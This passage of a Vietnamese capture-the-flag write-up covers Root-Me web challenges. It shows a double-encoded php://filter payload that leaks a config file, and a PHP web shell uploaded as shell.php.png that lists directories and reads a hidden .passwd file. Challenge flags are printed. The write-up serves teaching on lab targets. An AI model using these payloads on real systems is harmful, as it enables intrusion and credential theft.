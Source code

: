 ```PHP
      foreach ($conf['cv']['jobs'] as $job) {
    ?>
      <div class="job">
        <h4><?= $job['title'] ?> - <span class="date"><?= $job['date'] ?></span></h4>
      </div>
    <?php
      }
    ?>
  </body>
</html>
```
Mình gửi tiếp payload :
`php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dconf`

Nhận được một chuỗi base64 và decode ra mình nhận được flag:
```PHP
    "flag" => "Th1sIsTh3Fl4g!",
    "home" => '<h2>Welcome</h2>
    <div>Welcome on my personal website !</div>',
```
# 3.File upload - Double extensions(Root me)
Link challenge : [http://challenge01.root-me.org/web-serveur/ch20/](http://challenge01.root-me.org/web-serveur/ch20/)

#### Statement
Your goal is to hack this photo galery by uploading PHP code.
Retrieve the validation password in the file .passwd at the root of the application.

![image](https://scontent.xx.fbcdn.net/v/t1.15752-9/333943514_6350983044947574_8012559699798614740_n.png?stp=dst-png_p206x206&_nc_cat=109&ccb=1-7&_nc_sid=aee45a&_nc_ohc=X0xn5V1LWGgAX-j0ElN&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdTcMhltnO76zY5mypSbuBdlMoCVnrNVq5ec4AOdrkb5AA&oe=6423A193)

Mục đích của bài này là đọc file `.passwd` nên mình cần viết một shell php:
```Php
<?php
System("
    ls -la ../;
");
?>
```
Mình upload file `shell.php` thì thấy thông báo lỗi `Wrong file extension !` vì nó chỉ cho upload các extension như .png, .jpeg, .gif  nên mình thử sửa lại tên file `shell.php.png` up lên thử thì ok.

Nhiệm vụ bài này là đọc file ẩn `.passwd` nên mình cần `-la` để list ra các file ẩn trong directory.Mình thử nhiều lần thì tìm được chỗ có file `.passwd`
```Php
<?php
System("
    ls -la ../../../;
");
?>
```
Sau đấy mình cần đọc nội dung của file,mình chỉnh lại shell một chút:
```Php
<?php
System("
    cat ../../../.passwd;
");
?>
```
>Flag: Gg9LRz-hWSxqqUKd77-_q-6G8
